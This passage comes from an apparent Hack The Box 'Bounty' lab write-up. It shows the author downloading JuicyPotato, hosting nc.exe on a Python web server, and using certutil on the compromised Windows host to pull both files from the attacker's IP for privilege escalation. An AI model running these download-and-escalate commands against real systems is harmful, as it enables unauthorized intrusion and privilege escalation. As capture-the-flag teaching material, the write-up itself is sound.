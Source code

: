 ```
PS C:\users\public\downloads> 
```
Let's download the JuicyPotato file to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe         
--2023-04-14 10:56:20--  https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/142582717/538c8db8-9c94-11e8-84e5-46a5d9473358?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20230414%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230414T085621Z&X-Amz-Expires=300&X-Amz-Signature=981876971acea3e8e4fbd241fad154de41664636da66bfff89c8760110c9b79d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=142582717&response-content-disposition=attachment%3B%20filename%3DJuicyPotato.exe&response-content-type=application%2Foctet-stream [following]
--2023-04-14 10:56:20--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/142582717/538c8db8-9c94-11e8-84e5-46a5d9473358?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20230414%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230414T085621Z&X-Amz-Expires=300&X-Amz-Signature=981876971acea3e8e4fbd241fad154de41664636da66bfff89c8760110c9b79d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=142582717&response-content-disposition=attachment%3B%20filename%3DJuicyPotato.exe&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 347648 (340K) [application/octet-stream]
Saving to: ‘JuicyPotato.exe’

JuicyPotato.exe              100%[==============================================>] 339.50K  --.-KB/s    in 0.03s   

2023-04-14 10:56:21 (11.7 MB/s) - ‘JuicyPotato.exe’ saved [347648/347648]
```
Next we should upload a netcat binary. First we should find the binary on our Kali and copy it to our working directory and host it via our python webserver.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ locate nc.exe 
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .      

┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Let's try to download the netcat binary and JuicyPotato so we can run it for our privilege escalation..
```
PS C:\users\public\downloads> certutil -f -urlcache http://10.10.14.44/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\users\public\downloads> certutil -f -urlcache http://10.10.14.44/JuicyPotato.exe JuicyPotato.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

```